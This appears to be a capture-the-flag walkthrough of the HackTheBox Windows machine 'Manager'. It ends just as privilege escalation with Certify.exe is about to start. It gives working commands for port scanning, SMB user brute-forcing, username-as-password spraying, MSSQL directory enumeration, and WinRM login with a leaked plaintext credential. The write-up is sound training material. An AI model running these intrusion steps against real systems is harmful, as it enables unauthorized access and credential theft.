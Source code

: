 HackTheBox Machine: Mananger - Walkthrough
HTB box name: Mananger
OS: Windows
Difficulty: Medium
IP: 10.10.11.236

# Scanning

I like to start with scanning all available ports with nmap.
`nmap -p- -oA nmap/allPorts 10.10.11.236`

<!-- scan image -->

Lets scan againg for known ports with some extra flags
-sC : Default script scan
-sV : Service version detection
-oA : Output to file(to keep the record)

<!-- scan image -->

There are a lot of open ports, lets list the interesting ones to tackle with:

## 80(HTTP) - Web server

LDAP ports revealed Domain Names, lets add them to /etc/hosts file
`echo 10.10.11.236  dc01.manager.htb mananger.htb >> /etc/hosts`

Upon checking the website couldn't find much in client side source code.
Was simple website with contact form. And form action was empty so it does not preform any server side actions
Lets preform directory bruteforcing with gobuster and see if we can find something.
`gobuster dir -u 10.10.11.236 -w /usr/share/dirb/wordlists/common.txt`
![gobuster](image-1.png)
There was not much of interesting directories.
Lets move forward.

## 445(SMB) - File sharing

This is interesting one. Most of times SMB is accesible by autonomous users.
Will be using crackmapexec, which is powerfull tool to enumerate Windows/Active Directory environments, to try to access SMB and bruteforce AD objects.
`crackmapexec smb 10.10.11.236 -u anonymous -p "" --rid-brute 10000`

![smbScan](image.png)

We were able to get usernames. Lets tidy them up and save them in `users.txt` file so that we can use them in bruteforcing. Running bruteforcing with huge list can take a long time. We can try to go faster route by trying usernames as passwords. Human nature is lazy to use complicated passwords sometimes :D
We can again use `crackmapexec`, by specifying user and password list with additinal flags.
`crackmapexec smb 10.10.11.236 -u users.txt -p users.txt --no-brute --continue-on-success`

![smbScan2](image-2.png)

It worked for `operator` user.

## 1433(MSSQL) - SQL server

Lets try `operator` user to enumarate MSSQL server as well. We will be using same `crackmapexec` command as above but for mssql.
`crackmapexec mssql 10.10.11.236 -u operator -p operator --no-brute --continue-on-success`

![mssql](image-3.png)

We can see that operator can login into MSSQL server. Let login using mssql client and try to find some usefull data. Will be using mssql client from impacket.
`impacket-mssqlclient -port 1433 10.10.11.236/operator:operator@10.10.11.236 -window`

![mssql1](image-4.png)

Lets look around and see if we can find something. Help command is handy here and we can run the following commands:

![impacketHelp](image-5.png)

I have enumerated db, no interesting info there.
If we want to have reverse shell we need to access to cmd. So we can use `xp_cmdshell`. Upon trying, we see that we do not have permissions.

![cmdDenied](image-6.png)

We can utilize `xp_dirtree` to list the directory. And try to look for interesting files.

![dirtree](image-7.png)

Simple google search will tell us `c:\Inetpub\wwwroot` is default IIS directory. We can take a look there.

![iisDirectory](image-8.png)

We found `website-backup-27-07-23-old.zip` file and we can download it with wget and see whats in there.
![wget](image-9.png)

Found .`old-conf.xml` file. And there were credentials for user: `raven`
![oldconf](image-10.png)
![userData](image-11.png)

We can test if that credentials are still correct with `crackmapexec`.
`crackmapexec winrm dc01.manager.htb  -u raven -p "R4v3nBe5tD3veloP3r!123" -d manager.htb --no-brute --continue-on-success`

![crackWinrm](image-12.png)

Appears that we can access using these credentials. We will utilize this credentials to get acces into system shell using `evil-winrm`.
`evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'`

![evilwinrm1](image-13.png)

I found Certify.exe which is used for privelage escalation in Windows machines, especially for  Active Directory certificate abusing.

Before digging into it, lets see what we can find user flag.
![userflag](image-14.png)
And we were able to find user flag.

# Privelage Escalation

As we found `Certify.exe`, lets see if we can run it and find possible privelages escalation paths.


